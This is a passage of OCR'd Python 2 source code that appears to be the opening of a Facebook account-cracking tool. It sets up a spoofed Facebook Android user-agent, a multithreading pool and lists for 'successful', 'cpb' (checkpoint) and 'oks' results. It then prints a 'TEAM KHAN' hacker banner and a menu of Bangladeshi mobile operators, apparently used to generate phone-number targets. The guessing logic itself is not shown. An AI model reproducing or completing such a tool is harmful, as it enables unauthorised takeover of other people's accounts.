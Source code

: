 from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
os.system('clear')
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [
 ('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def exb():
    print
    os.sys.exit()


def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


def t():
    time.sleep(1)


def cb():
    os.system('clear')

logo = '\x1b[1;97m--------------------------------------------------\n      ---> Create to by -> TEAM KHAN <--- \n\x1b[1;97m-------------------------------------------------- \n\x1b[1;97m     Facebook  -> KHAN WHITE HAT HACKERS TEAM \x1b[00m\n\x1b[1;97m--------------------------------------------------\n    ---> Github -> khanwhitehathackersteam <--- \n\x1b[1;97m--------------------------------------------------'

back = 0
successful = []
cpb = []
oks = []
id = []

def menu():
    os.system('clear')
    print logo
    print ''
    print '\x1b[1;94m--------------------------------------------------'
    
    print '\x1b[1;91mAUTHOR  : TEAM KHAN'
    print '\x1b[1;91mFACEBOOK  : KHAN WHITE HAT HACKERS TEAM'
    print '\x1b[1;91mGITHUB  : github.com/khanwhitehathackersteam'
    print ''
    print 50* '-'
    print '\x1b[1;94m--------------------------------------------------'
    print
    print '\x1b[1;91mBANGLADESH ALL OPERETOR NETWORK'
    print
    print '\x1b[1;92m[1]  ROBI (KHAN)'
    print '\x1b[1;92m[2]  AIRTEL(KHAN)'
    print '\x1b[1;92m[3]  BANGLALINK(OLD)'
    print '\x1b[1;92m[4]  BANGLALINK(NEW)'
    print '\x1b[1;92m[5]  GRAMEEN(KHAN)'
    print '\x1b[1;92m[6]  TELETALK(KHAN)'
    print '\x1b[1;92m[7]  CONTACT ME'